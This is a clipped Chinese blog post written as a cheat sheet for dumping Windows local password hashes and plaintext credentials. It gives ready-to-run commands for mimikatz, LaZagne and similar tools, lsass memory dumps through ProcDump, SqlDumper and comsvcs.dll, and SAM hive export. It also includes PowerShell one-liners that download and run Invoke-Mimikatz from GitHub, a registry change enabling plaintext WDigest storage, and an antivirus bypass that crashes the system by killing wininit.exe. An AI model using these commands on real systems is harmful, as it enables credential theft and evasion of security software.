 ```yaml
---
title: Windows 本地 hashdump 备忘录
url: https://blog.thekingofduck.com/post/Dumping-Windows-Local-Credentials-Tools/#toc-heading-15
clipped_at: 2024-04-01 16:53:25
category: default
tags: 
 - blog.thekingofduck.com
---
```



# Windows 本地 hashdump 备忘录

市面上可见到的读 Windows 本地密码的大多工具都是变则法子的去读 lsass.exe 这个密码的内存或者 SAM 数据库，然后从里面提取 hash。所以有杀软的情况下读密码这事根本就不是工具免不免杀的问题，而是杀软有没有监控保护 lsass.exe 或 SAM 的问题，所以读本地密码条件可以总结为：

> 能正常访访问 lsass.exe 内存或 SAM 数据库。

### 常见工具

工具仅部分，通过以下操作可一键获取密码。

#### mimikatz

https://github.com/gentilkiwi/mimikatz

```plain
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"  "exit"
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-e78b639443fbad8ad654a5826225d506.png)

#### QuarksPwDump

https://github.com/quarkslab/quarkspwdump

```css
QuarksPwDump.exe -dhl
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-8f1dd7ac7c6998cd63938188c1234dc5.png)

#### wce

https://www.ampliasecurity.com/research/wcefaq.html

```css
wce.exe -w
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-4095cd172ebcbd9d0c8ac871bc24dd85.png)

#### pwdump7

http://www.tarasco.org/security/pwdump\_7/index.html

```css
PwDump7.exe
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-67aa34dcb54cf0f06b878ebf72cf8157.png)

#### LaZagne

https://github.com/AlessandroZ/LaZagne

```css
laZagne_x86.exe windows
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-bd4f2be73852e207f2a8fee2d24b98d9.png)

### lsass 内存 dump

工具仅部分，通过以下操作可先获取到 lsass 内存文件，然后使用 mimikatz 可进一步读取密码。  
参考命令：

```css
mimikatz.exe"sekurlsa::minidump lsass.dmp""sekurlsa::logonPasswords full" "exit"
```

#### SharpDump

https://github.com/GhostPack/SharpDump

```perl
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do SharpDump.exe %i
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-25fab89c171b55446163c5f67388ba1e.png)

#### ProcDump

https://docs.microsoft.com/en-us/sysinternals/downloads/procdump

```css
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-c7bec31741650cd198a6f3679d0fcb91.png)

#### SqlDumper

https://support.microsoft.com/en-us/help/917825/use-the-sqldumper-exe-utility-to-generate-a-dump-file-in-sql-server

```perl
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do Sqldumper.exe %i 0 0x01100
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-5e4d63376f4933d9cc7ada7630b7e979.png)

#### rundll32

https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/

```perl
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump %i .\lsass.dmp full
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-57709c6bca1d304b6537eb197d9f2463.png)

### 关于 SAM 数据库

管理员执行：

```css
reg save hklm\sam .\sam.hive&reg save hklm\system .\system.hive
```

然后将两个文件导入 SAMInside 并将 NT-Hash 复制出来去相关网站查询即可。（mimikatz 也可以读）

### 关于无文件加载

```plain
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-5ba2053cff23ca2e3e3bb8d351ff6f6e.png)

读一下代码会发现都是 peloader 做的，同理可以把 procdump 做成 psh 实现无文件 dump。

```bash
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/TheKingOfDuck/hashdump/master/procdump/procdump.ps1');Invoke-Procdump64 -Args '-accepteula -ma lsass.exe lsass.dmp'"
```

![](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711961605-909538fbcdb04add2586a99934adb9eb.png)

### 关于 2012 以及 win10 之后的机器：

```plain
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

键值为 1 时 Wdigest Auth 保存明文口令，为 0 则不保存明文。修改为重新登录生效。

### 偏激的 bypass 卡巴读密码

卡巴以及小红伞均对 lsass.exe 进行了保护，导致微软出的两款工具以及他自己的 kldumper 都无法用于 dump lsass。但是可以通过制造蓝屏来获取所有内存的文件 MEMORY.DMP 没然后在提出 lsass 进一步读取。

```coffeescript
taskkill /f /im "wininit.exe"
```

可参考：https://www.mrwu.red/web/2000.html

### 总结

bypass av 可以以卡巴为衡量标准，能过卡巴约等于过全部。

所以文件最终文件放在：

https://github.com/TheKingOfDuck/hashdump
